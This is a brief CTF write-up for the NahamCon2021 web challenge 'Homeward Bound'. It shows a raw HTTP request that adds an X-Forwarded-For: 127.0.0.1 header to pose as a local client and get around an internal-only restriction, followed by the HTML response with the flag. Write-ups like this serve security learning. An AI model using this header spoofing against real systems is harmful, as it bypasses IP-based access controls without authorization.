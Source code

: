 ```yaml
---
title: "NahamCon2021 CTF - Homeward Bound"
date: 2021-03-15T10:04:11+02:00
categories:
- writeup
- ctf
- nahamcon
- nahamcon2021
- 2021
---
```


## category

web - easy

## solution

The challenge URL returns the message `Sorry, this page is not accessible externally.`

{{< figure src="/images/nahamcon/homeward_bound.png" >}}

Add the `X-Forwarded-For: 127.0.0.1` header to reveal the flag.

```text
GET / HTTP/1.1
Host: challenge.nahamcon.com:30903
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-For: 127.0.0.1
Cookie: auth2=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E; auth=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E
Upgrade-Insecure-Requests: 1
```

The response has the flag.

```html
<p class="card-text">
    <div class="alert alert-success" role="alert">
        <b>Welcome!</b>
        Your internal access key is:
        <code>flag{26080a2216e95746ec3e932002b9baa4}</code>
    </div>
</p>
```
